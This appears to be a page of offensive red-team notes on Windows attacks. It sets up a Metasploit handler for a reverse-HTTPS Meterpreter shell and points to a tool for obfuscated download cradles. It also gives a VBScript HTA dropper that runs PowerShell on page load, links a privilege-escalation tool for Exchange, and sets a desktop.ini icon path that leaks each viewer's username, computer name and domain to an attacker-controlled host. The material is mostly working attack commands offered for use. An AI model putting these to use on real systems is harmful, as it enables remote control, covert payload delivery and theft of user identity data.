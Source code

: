 There are numerous ways to generate payloads.

## MSFConsole
### Creating a handler for the above payload
```
msfconsole
set payload windows/x64/meterpreter_reverse_https
set LHOST <ip>
set LPORT <port>
```

Settings for the handlers must match those of the payload.

# Dropping payloads
## Invoke-CradleCrafter
[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)

`PS > Import-Module Invoke-CradleCrafter.ps1 && import-module Out-Cradle.ps1`

Obfuscate all the things, drop into batch/hta/whatever.

## HTA file dropper
``` html
<script language="VBScript">
    Sub a
        Set z = CreateObject("Wscript.Shell")
        command = "%systemroot%\sysnative\WindowsPowerShell\v1.0\powershell.exe -noexit whatever"
        z.Run command
    End Sub
</script>
<body onload="a">
```
# Privilege Escalation

## PrivExchange
[https://github.com/dirkjanm/PrivExchange](https://github.com/dirkjanm/PrivExchange)


# Post-exploitation

## Windows

### Internal Enumeration/Calling Card

Create subfolder of desired location. Inside created folder, create desktop.ini:
```
[.ShellClassInfo]
IconResource=\\%USERNAME%.%COMPUTERNAME%.%USERDOMAIN%.INI.subdomain.domain.tld\resource.dll
```
